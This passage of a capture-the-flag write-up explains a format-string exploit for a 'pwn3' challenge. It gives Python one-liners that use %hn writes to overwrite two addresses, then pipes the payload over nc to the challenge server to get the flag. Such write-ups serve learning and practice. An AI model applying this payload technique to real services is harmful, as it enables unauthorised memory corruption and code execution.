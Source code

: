     ![Pwn3 Scheme](assets/12-pwn3_scheme.png)    
    
    Then, it makes sense that the first value to be written should be the lowest one `0x804-8 = 2044` in the address `0804a01e` (provided in big endian) which will be stored in the `4th` position of the stack.

	```bash
$ python -c 'print("\x1e\xa0\x04\x08" + "addr2" + "%2044x" + "%4$hn" + "%____x" + "%_$hn")'
```
    The second value to be written is the biggest one `0x85ab - (2044 + 8) = 32167` in the address `0804a01c` which will be stored in the `5th` position of the stack.

	```bash
$ python -c 'print("\x1e\xa0\x04\x08" + "\x1c\xa0\x04\x08" + "%2044x" + "%4$hn" + "%32167x" + "%5$hn")'
```

Finally! lets try it!

```bash
python -c 'print("\x1e\xa0\x04\x08" + "\x1c\xa0\x04\x08" + "%2044x" + "%4$hn" + "%32167x" + "%5$hn")' | nc pwn.ctf.tamu.edu 4323
```

![Pwn3 Scheme](assets/13-pwn3_getting_the_flag.png)    
